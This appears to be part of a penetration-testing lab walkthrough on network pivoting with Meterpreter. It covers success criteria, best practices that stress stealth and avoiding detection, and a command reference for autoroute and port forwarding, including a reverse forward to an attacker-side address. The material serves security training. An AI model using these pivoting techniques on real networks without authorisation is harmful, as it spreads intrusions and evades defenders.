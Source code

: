```bash
```

**Route Analysis:** The AutoRoute adds `172.16.5.0/255.255.254.0` which encompasses the target `172.16.5.19`

### **Lab Success Criteria**
✅ **Payload created** and transferred successfully  
✅ **Meterpreter session** established on pivot  
✅ **Ping sweep** reveals two active IPs: 172.16.5.19, 172.16.5.129  
✅ **SOCKS proxy** configured on port 9050  
✅ **AutoRoute** adds route 172.16.5.0/255.255.254.0  
✅ **Network pivoting** enabled through Meterpreter session

---

## **12. Best Practices**

### **Session Management**
1. **Background sessions** properly with `bg` command
2. **Monitor active sessions** with `sessions -l`
3. **Clean up port forwards** when finished
4. **Document active routes** for complex networks

### **Network Discovery**
1. **Use multiple discovery methods** (ping, TCP scan)
2. **Attempt discovery twice** to build ARP cache
3. **Document discovered hosts** for later reference
4. **Test connectivity** before setting up tunnels

### **Security Considerations**
1. **Minimize payload size** for stealth
2. **Use HTTPS payloads** when possible
3. **Clean up artifacts** after assessment
4. **Monitor for detection** during operations

---

## **13. Command Reference**

### **Essential Meterpreter Commands**
```bash
# Background session
bg

# List active sessions
sessions -l

# AutoRoute operations
run autoroute -s 172.16.5.0/23    # Add route
run autoroute -p                  # List routes
run autoroute -d 172.16.5.0/23    # Delete route

# Port forwarding
portfwd add -l 3300 -p 3389 -r 172.16.5.19    # Local forward
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18  # Reverse forward
portfwd list                                    # List forwards
portfwd delete -i 1                            # Delete forward
```
